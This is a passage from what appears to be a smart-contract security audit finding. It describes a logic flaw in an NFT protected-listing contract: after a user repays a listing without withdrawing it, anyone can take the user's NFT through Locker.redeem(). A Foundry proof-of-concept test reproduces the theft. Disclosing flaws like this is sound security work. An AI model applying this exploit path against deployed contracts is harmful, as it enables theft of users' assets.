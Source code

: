 ```solidity

        return false;
    }
```
Since `_protectedListings[_collection][_tokenId]` is already deleted in `ProtectedListings.sol#L314`, the condition of `L447` is `false` and `isListing()` function returns `false`. Therefore, attacker can take out user's repaid protected listing NFT by calling `Locker.redeem()` function.

PoC:
Add the following test code into `ProtectedListings.t.sol`.
```solidity
    function test_withdrawProtectedListingError() public {
        erc721a.mint(address(this), 0);
        
        erc721a.setApprovalForAll(address(protectedListings), true);

        uint[] memory _tokenIds = new uint[](2); _tokenIds[0] = 0; _tokenIds[1] = 1;

        // create protected listing for tokenId = 0
        IProtectedListings.CreateListing[] memory _listings = new IProtectedListings.CreateListing[](1);
        _listings[0] = IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(0),
            listing: IProtectedListings.ProtectedListing({
                owner: payable(address(this)),
                tokenTaken: 0.4 ether,
                checkpoint: 0
            })
        });
        protectedListings.createListings(_listings);

        vm.warp(block.timestamp + 7 days);

        // attacker can't take out protected listing
        locker.collectionToken(address(erc721a)).approve(address(locker), 1 ether);
        vm.expectRevert();
        locker.redeem(address(erc721a), _tokenIdToArray(0), address(this));

        // user unlock protected listing without withdrawing
        locker.collectionToken(address(erc721a)).approve(address(protectedListings), 402055890410801920);
        protectedListings.unlockProtectedListing(address(erc721a), 0, false);

        // attacker can take out protected listing with only 1 ether
        locker.redeem(address(erc721a), _tokenIdToArray(0), address(this));

        // user lost his NFT
        vm.expectRevert();
        protectedListings.withdrawProtectedListing(address(erc721a), 0);
    }
```
As can be seen above, attacker can take out user's repaid protected listing NFT with only `1 ether` before user withdraw it.
